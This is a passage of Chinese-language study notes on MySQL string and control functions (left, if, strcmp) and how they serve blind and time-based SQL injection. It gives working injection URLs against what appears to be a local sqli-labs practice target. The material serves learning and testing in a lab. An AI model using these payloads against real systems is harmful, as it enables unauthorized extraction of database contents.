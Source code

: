 

6、left(s,n):返回字符串s的前n个字符一般用于盲注。

`http://192.168.3.6/Less-5/?id=1' and ord(left((database()),1))=ascii('s')--+`



![image](004_第四周—数据库系统功能相关学习/Image_035-1567178982005.jpg)

7、if(expr,v1,v2)：如果表达式 expr 成立，返回结果 v1；否则，返回结果 v2

一般结合sleep(),用于时间盲注。

`http://192.168.3.6/Less-5/?id=1' and if((ord(left((database()),1))=ascii('s')),sleep(5),0)--+`



![image](004_第四周—数据库系统功能相关学习/Image_037-1567178982005.jpg)



8、strcmp(s1,s2)：比较s1和s2，如相同返回0，s1>s2返回1，否则返回-1

一般用于盲注,这里的payload比较微妙。

当s1与s2相同时会返回0，这时候在if(expr,v1,v2)中会进入1，从而构成判断逻辑。

[`http://192.168.3.6/Less-5/?id=1' and if(strcmp((select database()),'security'),sleep(5),1)--+ ](http://192.168.3.6/Less-5/?id=1')http://192.168.3.6/Less-5/?id=1' and if(strcmp((select database()),'security1'),sleep(5),1)--+`

![image](004_第四周—数据库系统功能相关学习/Image_039-1567178982005.jpg)


